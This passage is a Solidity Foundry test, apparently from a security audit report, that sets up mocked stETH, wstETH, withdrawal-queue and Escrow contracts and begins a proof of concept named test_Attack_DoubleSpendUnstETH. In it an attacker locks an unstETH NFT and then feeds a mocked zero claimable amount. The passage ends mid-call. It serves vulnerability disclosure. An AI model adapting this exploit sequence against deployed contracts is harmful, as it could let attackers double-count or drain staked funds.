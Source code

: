 ```solidity
    address internal immutable dualGovernanceAddress = makeAddr("dualGovernance");

    uint256 constant ATTACKER_NFT_ID = 1337;
    uint256 constant NFT_AMOUNT = 10 ether;

    function setUp() public {
        stETH = new StETHMock();
        wstETH = new WstETHMock(IStETH(address(stETH)));
        withdrawalQueue = new WithdrawalQueueMock(IERC20(address(stETH)));

        masterCopy = new Escrow(
            IStETH(address(stETH)),
            IWstETH(address(wstETH)),
            IWithdrawalQueue(address(withdrawalQueue)),
            IDualGovernance(dualGovernanceAddress),
            100,
            Durations.from(100 days)
        );
        escrow = Escrow(payable(Clones.clone(address(masterCopy))));

        vm.prank(dualGovernanceAddress);
        escrow.initialize(Durations.from(1 days));

        vm.mockCall(
            dualGovernanceAddress,
            abi.encodeWithSelector(IDualGovernance.activateNextState.selector),
            abi.encode(true)
        );
    }

    function test_Attack_DoubleSpendUnstETH() public {
        // === Step 1: Attacker locks an unstETH NFT ===
        uint256[] memory unstETHIds = new uint256[](1);
        unstETHIds[0] = ATTACKER_NFT_ID;
        uint256 sharesAmount = stETH.getSharesByPooledEth(NFT_AMOUNT);

        IWithdrawalQueue.WithdrawalRequestStatus[] memory statuses = new IWithdrawalQueue.WithdrawalRequestStatus[](1);
        statuses[0] = IWithdrawalQueue.WithdrawalRequestStatus(
            NFT_AMOUNT, sharesAmount, attacker, block.timestamp, false, false
        );
        withdrawalQueue.setWithdrawalRequestsStatuses(statuses);

        vm.startPrank(attacker);
        escrow.lockUnstETH(unstETHIds);
        vm.stopPrank();

        console.log("--- Step 1: Attacker locked NFT %s ---", ATTACKER_NFT_ID);
        ISignallingEscrow.SignallingEscrowDetails memory detailsBefore = escrow.getSignallingEscrowDetails();
        console.log("Unfinalized shares before attack:", detailsBefore.totalUnstETHUnfinalizedShares.toUint256());

        // === Step 2: First finalize call with 0 claimable amount ===
        uint256[] memory hints = new uint256[](1);
        hints[0] = 0; // Hint that will be mocked to return 0
        uint256[] memory zeroAmounts = new uint256[](1);
        zeroAmounts[0] = 0;

        // Mock the call to return 0
        vm.mockCall(
            address(withdrawalQueue),
            abi.encodeWithSelector(IWithdrawalQueue.getClaimableEther.selector, unstETHIds, hints),
```